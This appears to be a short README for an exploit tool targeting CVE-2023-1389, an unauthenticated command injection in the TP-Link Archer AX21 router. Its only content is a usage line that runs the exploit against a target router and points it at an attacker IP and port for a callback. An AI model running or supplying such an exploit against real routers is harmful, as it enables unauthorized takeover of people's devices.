 ## CVE-2023-1389
TP-Link Archer AX21 - Unauthenticated Command Injection

### Usage
```
python3 exploit.py -r https://target_router_IP  -a attacker_IP -p attacker_PORT
```
